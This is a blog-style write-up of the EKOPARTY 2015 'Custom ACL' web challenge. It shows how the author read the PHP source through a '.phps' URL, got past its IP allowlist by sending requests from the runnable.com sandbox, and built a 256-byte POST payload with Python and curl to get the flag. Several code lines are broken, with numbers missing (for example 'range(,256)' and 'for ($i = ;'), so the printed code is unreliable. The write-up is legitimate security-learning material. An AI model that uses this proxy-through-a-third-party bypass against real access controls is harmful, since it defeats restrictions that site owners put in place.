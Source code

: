 ```yaml
---
id: 221
title: 'EKOPARTY 2015 - Custom ACL - Web 100pt Challenge'
date: 2015-10-24T02:11:00+00:00
author: Kris
layout: post
guid: http://ctf.rip/?p=221
permalink: /ekoparty-2015-custom-acl-web-100p/
post_views_count:
  - "663"
image: /images/2015/10/ca-2.png
categories:
  - Uncategorized
  - Write-Ups
tags:
  - "2015"
---
```


Cool CTF, finished top 10 so I'm happy with that. Again it began mid week for me but I got sick with a virus so had to stay home anyway. What better to do than to CTF until I feel better?

Great challenge this one but I'm seeing a lot of people were doing strange things to the poor 3rd party involved in their writeups, like nmap scanning etc. None of that was necessary.

Here's the clue:


<div class="separator" style="clear: both; text-align: center;">
  <a href="/images/2015/10/ca-2.png" imageanchor="1" style="margin-left: 1em; margin-right: 1em;"><img border="0" src="/images/2015/10/ca-2.png" /></a>
</div>

So another PHP challenge I suppose, we browse on over and then append "s" on the URL to give us:

 * <http://ctfchallenges.ctf.site:10000/ipfilter/admin.phps>

Which coughs up the source code for us:
```
include ('flag.php');

if (isset($_SERVER['REMOTE_ADDR'])) $remote_ip = $_SERVER['REMOTE_ADDR'];
else die('Err');

$octets = explode('.', $remote_ip, 4);

if ($octets[] == '67' 
    && $octets[1] == '222' 
    && $octets[2] == '139' 
    && intval($octets[3]) >= 223 
    && intval($octets[3]) <= 230) {
    if (isset($_POST['admin'])) {
        $admin = $_POST['admin'];
        $is_admin = 1;
        print strlen($admin);
        if (strlen($admin) == 256) {
            for ($i = ; $i < 256; $i++) {
                if ($admin[$i] != chr($i)) $is_admin = ;
            }
        } else $is_admin = ;
        if ($is_admin == 1) echo "Your flag is $flag";
        else  die('Err');
    } else die('Err');
} else die('Err');
?>
```

Ok so the ONLY acceptable IPs are very specifically in the 67.222.139.223 - 67.222.139.230 range. What's special about that? We ask NSLookup to reverse lookup this IP:

```
root@mankrik:~# nslookup 67.222.139.223
Server:  192.168.36.2
Address: 192.168.36.2#53

Non-authoritative answer:
223.139.222.67.in-addr.arpa name = serverIP223.runnable.com.
```

<a href="http://runnable.com/">Runnable.com</a>? Let's check these guys out...

<div class="separator" style="clear: both; text-align: center;">
  <a href="http://1.bp.blogspot.com/-rfibjS91PKY/Virj55Bot_I/AAAAAAAAAQc/m-xCDOqz8HQ/s1600/runnable.PNG" imageanchor="1" style="margin-left: 1em; margin-right: 1em;"><img border="0" height="268" src="/images/2015/10/runnable-2.png" width="640" /></a>
</div>

Ok so online sandboxes we can run code in. Great, but I'm on a deadline here... Oh whats this:

<div class="separator" style="clear: both; text-align: center;">
  <a href="http://3.bp.blogspot.com/-xJ8DTxCy0tE/VirkLQAN5bI/AAAAAAAAAQk/EB_OKVp_-Rs/s1600/runnable2.PNG" imageanchor="1" style="margin-left: 1em; margin-right: 1em;"><img border="0" height="51" src="/images/2015/10/runnable2-2.png" width="320" /></a>
</div>

I don't know, Am I?

I click that link (<a href="http://code.runnable.com/">http://code.runnable.com/</a>) and I'm taken to the meat of their site, a list of code snippets we can run for various reasons. I pick one at random and am greeted with a surprise. Each code snippet gets a kind of web-based terminal to interact with:

<div class="separator" style="clear: both; text-align: center;">
  <a href="http://1.bp.blogspot.com/-VrJwfVh73xg/VirlfJHu9nI/AAAAAAAAAQw/FblDGPd6ooY/s1600/runnable4.PNG" imageanchor="1" style="margin-left: 1em; margin-right: 1em;"><img border="0" height="243" src="/images/2015/10/runnable4-2.png" width="640" /></a>
</div>

The terminal is furnished with useful tools as well, namely "curl":

```
root@runnable:/root# curl                              curl: try 'curl --help' or 'curl --manual' for more information                            
root@runnable:/root#
```                                                    

So i feel we have the vector now, we just need to pass all the other checks. Re-examining the source we need to:

  * Query must be post, fine we can use -d in curl for that
  * Query must contain the admin parameter, fine
  * Admin parameter must be 256 bytes long, fine ok
  * Each byte of the admin parameter value must equal the value of it's index in the string, er ok? Many of those characters wont be printable, we'll need to handle that

So I turn to Python and here's the source I come up with:
```
#!/usr/bin/python

import urllib

payload = ''

for i in range(,256):
 payload += chr(i)

payload = urllib.quote(payload)
payload = 'curl -d "admin=' + payload + '" http://ctfchallenges.ctf.site:10000/ipfilter/admin.php'

print payload
```

Which gives me the following output:
  
```
curl -d "admin=%01%02%03%04%05%06%07%08%09%0A%0B%0C%0D%0E%0F%10%11%12%13%14%15%16%17%18%19%1A%1B%1C%1D%1E%1F%20%21%22%23%24%25%26%27%28%29%2A%2B%2C-./0123456789%3A%3B%3C%3D%3E%3F%40ABCDEFGHIJKLMNOPQRSTUVWXYZ%5B%5C%5D%5E_%60abcdefghijklmnopqrstuvwxyz%7B%7C%7D%7E%7F%80%81%82%83%84%85%86%87%88%89%8A%8B%8C%8D%8E%8F%90%91%92%93%94%95%96%97%98%99%9A%9B%9C%9D%9E%9F%A0%A1%A2%A3%A4%A5%A6%A7%A8%A9%AA%AB%AC%AD%AE%AF%B0%B1%B2%B3%B4%B5%B6%B7%B8%B9%BA%BB%BC%BD%BE%BF%C0%C1%C2%C3%C4%C5%C6%C7%C8%C9%CA%CB%CC%CD%CE%CF%D0%D1%D2%D3%D4%D5%D6%D7%D8%D9%DA%DB%DC%DD%DE%DF%E0%E1%E2%E3%E4%E5%E6%E7%E8%E9%EA%EB%EC%ED%EE%EF%F0%F1%F2%F3%F4%F5%F6%F7%F8%F9%FA%FB%FC%FD%FE%FF" http://ctfchallenges.ctf.site:10000/ipfilter/admin.php
```

Which I copy and paste into the Runnable.com web terminal:
```
root@runnable:/root# curl -d "admin=%01%02%03%04%05%06%07%08%09%0A%0B%0C%0D%0E%0F%10%11%12%13%14%15%16%17%18%19%1
A%1B%1C%1D%1E%1F%20%21%22%23%24%25%26%27%28%29%2A%2B%2C-./0123456789%3A%3B%3C%3D%3E%3F%40ABCDEFGHIJKLMNOPQRSTUVWXYZ%
5B%5C%5D%5E_%60abcdefghijklmnopqrstuvwxyz%7B%7C%7D%7E%7F%80%81%82%83%84%85%86%87%88%89%8A%8B%8C%8D%8E%8F%90%91%92%93
%94%95%96%97%98%99%9A%9B%9C%9D%9E%9F%A0%A1%A2%A3%A4%A5%A6%A7%A8%A9%AA%AB%AC%AD%AE%AF%B0%B1%B2%B3%B4%B5%B6%B7%B8%B9%B
A%BB%BC%BD%BE%BF%C0%C1%C2%C3%C4%C5%C6%C7%C8%C9%CA%CB%CC%CD%CE%CF%D0%D1%D2%D3%D4%D5%D6%D7%D8%D9%DA%DB%DC%DD%DE%DF%E0%
E1%E2%E3%E4%E5%E6%E7%E8%E9%EA%EB%EC%ED%EE%EF%F0%F1%F2%F3%F4%F5%F6%F7%F8%F9%FA%FB%FC%FD%FE%FF" http://ctfchallenges.c
tf.site:10000/ipfilter/admin.php                                                                                    
256Your flag is EKO{runnable_com_31337_s3rv1c3} 
```

Voila, our flag:

_EKO{runnable_com_31337_s3rv1c3}_
